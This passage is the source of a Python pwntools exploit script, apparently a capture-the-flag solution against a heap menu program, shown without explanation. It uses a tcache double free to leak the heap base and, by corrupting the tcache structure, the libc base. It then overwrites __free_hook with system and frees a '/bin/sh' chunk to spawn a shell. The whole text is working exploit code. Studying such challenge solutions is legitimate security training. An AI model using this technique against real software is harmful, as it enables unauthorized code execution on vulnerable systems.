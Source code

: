 ```
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())

def edit(content):
    cmd(2)
    p.recvuntil(b"Index: ")
    p.sendline(b'0')
    p.recvuntil(b"Content: ")
    p.sendline(content)

def dump():
    cmd(3)
    p.recvuntil(b"Index: ")
    p.sendline(b'0')
    p.recvuntil(b"Content: ")

def free():
    cmd(4)
    p.recvuntil(b"Index: ")
    p.sendline(b'0')

def exp():
    new(0x78)
    free()
    edit(b'arttnba3' * 2)
    free()
    dump()
    heap_leak = u64(p.recv(6).ljust(8, b'\x00'))
    heap_base = heap_leak & 0xfffffffff000
    log.success('heap base: ' + hex(heap_base))
    edit(p64(heap_base + 0x10))
    new(0x78)
    new(0x78)
    edit(b'\x00' * 35 + b'\x07')
    free()
    dump()
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x60 
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.success('libc base:' + hex(libc_base))
    edit((b'\x01' * 2).ljust(64, b'\x00') + p64(libc_base + libc.sym['__free_hook']) + p64(heap_base + 0x10))

    new(16)
    edit(p64(libc_base + libc.sym['system']))

    new(32)
    edit('/bin/sh\x00')
    free()
    p.interactive()

if __name__ == '__main__':
    exp() 
```

